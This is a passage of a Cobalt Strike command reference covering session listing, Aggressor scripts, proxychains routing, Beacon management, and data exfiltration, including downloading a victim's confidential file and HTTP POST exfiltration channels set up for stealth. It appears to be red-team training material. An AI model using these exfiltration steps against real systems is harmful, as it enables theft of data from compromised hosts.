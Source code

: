#### **15. List Active Sessions**
- **Description:** View all active sessions.
- **Command:**
  ```bash
  View > Sessions
  ```
- **Explanation:**
  - Shows all active sessions in the GUI, including Beacons and pivoted sessions.

#### **16. Use Aggressor Scripts**
- **Description:** Run custom Aggressor scripts for automation and customization.
- **Command:**
  ```bash
  script <path_to_script.cna>
  ```
- **Example:**
  ```bash
  script /path/to/aggressor.cna
  ```
- **Explanation:**
  - Aggressor scripts can automate repetitive tasks or customize the Cobalt Strike behavior.

#### **17. Use Proxychains**
- **Description:** Route Cobalt Strike traffic through a proxy using proxychains.
- **Command:**
  ```bash
  proxychains ./cobaltstrike
  ```
- **Explanation:**
  - Forces Cobalt Strike to route through proxy servers using `proxychains`.

#### **18. Manage Active Sessions**
- **Description:** Terminate or manage active Beacon sessions.
- **Command:**
  ```bash
  View > Beacons > Right-click > Manage
  ```
- **Explanation:**
  - Allows users to manage sessions (e.g., terminate, modify) through the GUI.

#### **19. Exfiltrate Data**
- **Description:** Download data from the compromised host.
- **Command:**
  ```bash
  download <file_path>
  ```
- **Example:**
  ```bash
  download C:\Users\victim\Documents\confidential.docx
  ```
- **Explanation:**
  - Downloads files from the victim machine to the attacker’s system.

#### **20. Use Data Exfiltration Methods**
- **Description:** Set up and use data exfiltration channels.
- **Command:**
  ```bash
  Data Exfiltration > HTTP POST
  ```
- **Explanation:**
  - Configure C2 channels to exfiltrate data over HTTP POST requests for stealth.

---